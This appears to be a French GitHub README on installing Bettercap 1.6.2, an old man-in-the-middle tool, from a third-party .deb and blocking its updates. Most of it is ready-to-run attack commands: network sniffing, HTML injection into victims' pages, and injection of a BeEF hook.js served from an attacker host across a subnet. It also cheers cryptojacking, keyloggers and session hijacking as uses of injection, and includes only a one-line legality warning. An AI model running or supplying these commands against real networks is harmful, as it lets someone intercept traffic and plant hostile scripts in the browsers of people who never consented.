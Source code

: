 # :heavy_check_mark: Bettercap 1.6.2
![alt text](https://www.bettercap.org/logo.png) </p>
Bettercap est un outils MITM multifonction, exemple : sniffing, injection ... </p>
:heavy_exclamation_mark: Cependant, sniffer un réseau qui n'est pas le votre est illégal. </p>
Dépendances à satisfaire => <b> ```apt-get install ruby ruby-colorize ruby-em-proxy ruby-net-dns ruby-network-interface ruby-packetfu ruby-packetfu ```</b> </p>
Pour télécharger :<b> ```git clone https://github.com/hurikayne/bettercap_1.6.2-0parrot1_all``` </b> </p>
:heavy_check_mark: install => <b>```dpkg -i bettercap_1.6.2-0parrot1_all.deb```</b> </p>
Bettercap 1.6.2 est une ancienne version de Bettercap, la 1.6.2 est plus simple. </p> Or à chaque "<b>```apt-get update```</b>" le paquet se mettera à jour, mais nous ne voulons pas cela donc pour empêcher la MAJ du paquet on lance la commande suivante : <b>```sudo apt-mark hold bettercap```</b> </p>
:heavy_check_mark: Pour sniffer un réseau (MITM): ```bettercap -X ```</p>
Pour de l'aide : <b>```bettercap -h``` </b></p>

Qu'est-ce que l'<b>injection</b> ? 
L'injection permet de placer un morceau de code non voulus par la/les victime(s), </p>exemple : injecter du html pour afficher un image à chaque page chargé par la victime, ou encore du javaScript pour injecter des keyloggers. </p>Avec JavaScript les possibilitées d'attaques sont énormes (cryptojacking :ok_hand:, session hijacking ...). 
:heavy_check_mark: Pour faire de l'injection: <b>```bettercap -I (INTERFACE ex:wlan0) -T (TARGET_IP) --proxy-https --httpd --proxy-module injecthtml --html-file xxxxx.html```</b>  </p>
Injection de code unique (Beef ex) : <b>```sudo bettercap -I wlan0 -G 172.51.1.1 -T 172.51.0.0/23 --proxy-module injectjs --js-url "http://172.51.1.91:3000/hook.js"```</b>
L'utilisation de <b>Caplets</b> rend bettercap puissant. </p>


Pour plus de détails voir le site officiel : https://www.bettercap.org/  </p>



